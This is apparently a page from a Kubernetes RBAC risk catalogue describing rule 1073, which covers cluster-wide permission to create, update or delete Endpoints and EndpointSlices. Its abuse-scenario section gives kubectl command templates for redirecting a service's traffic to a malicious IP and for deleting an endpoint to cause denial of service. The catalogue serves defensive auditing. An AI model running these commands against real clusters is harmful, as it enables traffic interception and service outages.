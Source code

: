 ```yaml
---
id: 1073
title: "Manage Endpoints or EndpointSlices cluster-wide"
description: "Allows creating, updating, or deleting Endpoints/EndpointSlices for services across all namespaces. This can be used to redirect traffic intended for legitimate services to malicious pods (Man-in-the-Middle), cause denial of service, or bypass network policies."
category: NetworkManipulation
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                                                 |
| ----------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1073                                                                                                                                                  |
| Name                    | Manage Endpoints or EndpointSlices cluster-wide                                                                                                       |
| Risk Category           | NetworkManipulation                                                                                                                                   |
| Risk Level              | {{< risk Critical >}}                                                                                                                                 |
| Role Type               | ClusterRole                                                                                                                                           |
| API Groups              | core, discovery.k8s.io                                                                                                                                |
| Resources               | endpoints, endpointslices                                                                                                                             |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete] · [get] · [list]                                                                                             |
| Tags                    | {{< tag "DenialOfService" >}} {{< tag "ManInTheMiddle" >}} {{< tag "NetworkManipulation" >}} {{< tag "Tampering" >}} {{< tag "TrafficRedirection" >}} |

## Description

Allows creating, updating, or deleting Endpoints/EndpointSlices for services across all namespaces. This can be used to redirect traffic intended for legitimate services to malicious pods (Man-in-the-Middle), cause denial of service, or bypass network policies.

## Abuse Scenarios

1. Create a new Endpoint to redirect traffic for a service to a malicious IP.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Endpoints
metadata:
  name: <service-name> # Must match an existing service name
subsets:
  - addresses:
      - ip: <malicious-ip-address>
    ports:
      - port: <service-port>
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF (redirect 'kubernetes' service)

```

2. Delete an existing Endpoint, causing service disruption (DoS).

```bash
kubectl delete endpoint <endpoint-name> -n <namespace>
# Example: kubectl delete endpoint my-app-service -n production

```
